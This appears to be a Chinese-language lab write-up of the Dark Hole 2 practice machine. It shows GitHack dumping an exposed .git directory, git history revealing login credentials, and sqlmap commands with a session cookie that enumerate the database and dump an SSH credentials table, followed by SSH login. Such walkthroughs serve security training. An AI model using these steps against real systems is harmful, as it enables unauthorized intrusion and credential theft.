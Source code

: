 ```yaml
---
layout: post
title: 2025-07-15-Dark-Hole-2
subtitle: 2025-07-15-Dark-Hole-2
date: 2025-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: false
---
```


![image.png](https://img.ghostliner.top/gfbKzP.png)

![image.png](https://img.ghostliner.top/92tYeS.png)

```
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
python2 GitHack.py http://192.168.163.134/.git/
```

```
git log
git reset --hard HEAD^
git reset --hard <id>
```

![image.png](https://img.ghostliner.top/jPyGeI.png)

用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

```mysql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

登陆后地址 http://192.168.163.134/dashboard.php?id=1 测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取ssh表中数据，用户名：`jehad` 密码：`fool`
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

ssh登录成功，查看home目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

![image.png](https://img.ghostliner.top/6eDntV.png)

![image.png](https://img.ghostliner.top/QtpOyP.png)
